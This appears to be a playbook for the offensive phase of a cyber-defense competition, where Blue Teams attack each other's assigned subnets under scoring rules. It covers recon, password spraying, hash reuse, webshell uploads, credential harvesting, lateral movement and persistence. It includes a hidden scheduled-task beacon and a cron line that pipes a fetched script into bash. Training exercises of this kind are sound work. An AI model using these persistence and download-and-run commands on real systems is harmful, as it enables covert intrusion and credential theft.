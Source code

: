 🔵 Phase Two Workflow — Blue vs. Blue (Offense)
1. Rules & Constraints
Targets: Only other Blue Teams’ subnets (100.80.0.0/21, per team ranges).

Prohibited: No DoS, no rendering hosts unusable, no deleting OS files, no firewall lockouts.

Scoring: Maintain your own services and beacon from compromised hosts to Scorebot.

Spirit: Live off the land, minimize footprint, preserve uptime.

2. Reconnaissance
Network discovery

bash
nmap -sV -Pn 100.80.X.0/23
Focus on scored services (HTTP, DNS, SMB, RDP, SSH).

Web app mapping

Use curl, wget, or Burp to enumerate endpoints.

Look for login portals, file uploads, debug pages.

Service enumeration

SMB: smbclient -L //target -N

RDP: xfreerdp /u:user /p:pass /v:target

SSH: ssh user@target

3. Initial Access
Credential attacks

Reuse captured NTLMv2/NTLM hashes (from Responder).

Spray common passwords against SSH/RDP/SMB.

Web app exploitation

Test for auth bypass, LFI, RFI, SQLi, file upload → webshell.

Abuse legitimate features (template injection, debug endpoints).

Living off the land

Windows: wmic, powershell, schtasks, regsvr32.

Linux: ssh, cron, systemd-run, bash.

4. Post‑Exploitation
Credential harvesting

Windows: cmdkey /list, dump saved creds.

Linux: check /etc/shadow (if readable), config files, SSH keys.

Lateral movement

Windows: Enter-PSSession, Invoke-Command, schtasks.

Linux: SSH with reused creds, pivot via shared keys.

Privilege escalation

Windows: weak service permissions, unquoted paths.

Linux: sudo misconfigs, SUID binaries, cron jobs.

5. Persistence
Windows

Scheduled task with PowerShell one‑liner beacon.

Registry run keys (user‑level).

Linux

Add SSH key to ~/.ssh/authorized_keys.

Cron @reboot job calling existing binaries.

6. Beaconing & Scoring
Deploy beacon to Scorebot from compromised host.

Use allowed egress (80/443/53/25).

Keep services functional — test after beacon deployment.

7. Hygiene & Documentation
Do not delete logs — only clean your artifacts (temp files, uploaded shells).

Document everything: host, creds, method, persistence, beacon status.

Time management: rotate operators, avoid rabbit holes.

8. Priorities & Time Allocation
First 30 min: Recon, service mapping, quick wins (default creds, weak passwords).

Next 60–90 min: Web app exploitation, credential reuse, initial shells.

Next 60–90 min: Lateral movement, persistence, beacon deployment.

Final stretch: Maintain uptime, clean artifacts, document for hotwash.

9. LOTL Command Snippets
Windows

powershell
schtasks /Create /SC ONCE /TN "Update" /TR "powershell -w hidden -c '...' " /ST 23:59
Linux

bash
echo "@reboot /usr/bin/curl http://100.80.X.Y/beacon.sh | bash" | crontab -
✅ Phase Two Mindset
Stealth over noise: blend with admin traffic.

Service uptime first: don’t break scored services.

Document for hotwash: every action is a learning point.

Outrun the other Blue Teams: you don’t need perfection, just better resilience and offense.
